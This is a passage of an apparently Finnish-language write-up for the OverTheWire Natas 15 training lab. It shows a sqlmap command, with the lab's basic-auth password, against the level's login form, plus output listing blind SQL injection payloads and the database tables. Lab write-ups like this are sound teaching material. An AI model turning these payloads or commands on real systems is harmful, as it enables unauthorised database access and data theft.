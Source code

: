 ```

[14:48:44] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'
[14:48:44] [WARNING] your sqlmap version is outdated

[*] ending @ 14:48:44 /2025-05-18/
```

Seuraavaksi: <br>
Tässä mennään tohon tietokannan `natas15` sisälle , tarkistettaan tables (taulu), ja jos lyhenteenä menisi `-T`
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--string "This user exists" \
-D natas15 --tables
        ___
       __H__                                                                                                                              
 ___ ___[)]_____ ___ ___  {1.8.5#stable}                                                                                                  
|_ -| . [.]     | .'| . |                                                                                                                 
|___|_  [,]_|_|_|__,|  _|                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:55:08 /2025-05-18/

[14:55:09] [INFO] resuming back-end DBMS 'mysql' 
[14:55:09] [INFO] testing connection to the target URL
[14:55:09] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[14:55:09] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[14:55:09] [INFO] fetching tables for database: 'natas15'
[14:55:09] [INFO] fetching number of tables for database 'natas15'
[14:55:09] [INFO] resumed: 1
[14:55:09] [INFO] resumed: users
Database: natas15
[1 table]
+-------+
| users |
+-------+
```